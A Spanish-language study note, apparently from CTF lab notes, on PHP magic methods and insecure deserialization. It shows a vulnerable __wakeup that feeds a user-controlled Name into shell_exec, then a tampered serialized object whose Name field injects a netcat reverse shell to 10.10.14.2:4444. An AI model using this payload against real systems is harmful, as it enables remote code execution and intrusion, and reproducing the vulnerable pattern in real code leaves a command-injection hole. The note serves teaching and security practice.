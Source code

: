 ### INFO

- Php tiene un total de 17 magic methods
- Son métodos que reescriben el comportamiento de los objetos cuando son llamados
- Inician con "__"

| Método   | Desc. |
|----------|------|
| __construct    | Método constructor de una clase  |
| __toString    | Define cómo un objeto reacciona al ser trabajado como un string   |
| __call  | Usado cuando se trata de llamar un metodo inaccesible dentro del contexto de un objeto   |
| __get     | CUando tratamos de leer propiedades inaccesibles   |
| __set    | Llamado cuando tratamos de escribir propiedades inaccesibles   |
| __clone    | Cuando tratamos de clonar un objeto   |
| __destruct     | Cuando necesitamos destruir un objeto   |
| __isset    | Cuando tratamos de llamar un isset() o un isempty() en propiedades inaccessibles   |
| __invoke    | Cuando tratamos de invocar un objeto como función   |
| __sleep     | **Llamada cuando se necesita serializar un objeto**. Si __serialize y __sleep están definidas la segunda es ignorada   |
| __wakeup    | **Llamada cuando se deserializa un objeto**. Si __unserialize y __wakeup están definidas, la segunra es ignorada   |
| __unset    | Llamada cuando se tratamos de hacer un unset sobre una propiedad inaccesible   |
| __callStatic    | Llamada cuando necesitamos acceder a un metodo inaccesible en un contexto estático  |
| __set_state    | Llamado cuando var_export es llamado sobre un objeto   |
| __debuginfo    | Llamado cuando var_dump es llamado sobre un objeto   |
| __unserialize     |  Llamado cuando necesitamos un deserializar un objeto  |
| __serialize    | Llamado cuando necesitamos serializar un objeto   |


### Whitebox

Supongamos que tenemos el siguiente código que recibe un objeto serializado:

       public function __construct($Name, $Email, $Password, $ProfilePic) {
            $this->setName($Name);
            $this->setEmail($Email);
            $this->setPassword($Password);
            $this->setProfilePic($ProfilePic);
        }
    
        public function __wakeup() {
            shell_exec('echo "$(date +\'[%d.%m.%Y %H:%M:%S]\') Imported settings for user \'' . $this->getName() . '\'" >> /tmp/htbank.log');
        }
    
        public function __sleep() {
            return array("Name", "Email", "Password", "ProfilePic");
        }

Vemos que la función __wakeup es utilizada para deserializar y asentar esto en un log por medio de la ejecución de código en la terminal y que invoca al atributo NAME del objeto.

Podríamos entonces modificar el value del name del objeto para crear una shell reversa y conseguir RCE:

##### Objeto serializado:

       O:24:"App\Helpers\UserSettings":4:{s:30:"App\Helpers\UserSettingsName";s:6:"porota";s:31:"App\Helpers\UserSettingsEmail";s:17:"porota@porota.com";s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$rhsxRw1X8gpBNhIaMVK9g.jREhfEqNWrNpIGxTpLry1nn8vp8YGXC";s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";}

##### Objeto modificado con inyección de codigo:

       O:24:"App\Helpers\UserSettings":4:{s:30:"App\Helpers\UserSettingsName";s:40:""; nc -nv 10.10.14.2 4444 -e /bin/bash;#";s:31:"App\Helpers\UserSettingsEmail";s:19:"attacker@htbank.com";s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda";s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";}


---
#### Extra

Nos siempre el RCE va a ser posible, de igual manera depende de los magic methods usados por los desarrolladores y la inyección en un objeto serializado no se resume a comandos. Puede ser aplicados a sql, LFI y cualquier otra transacción de datos. Sean creativos.
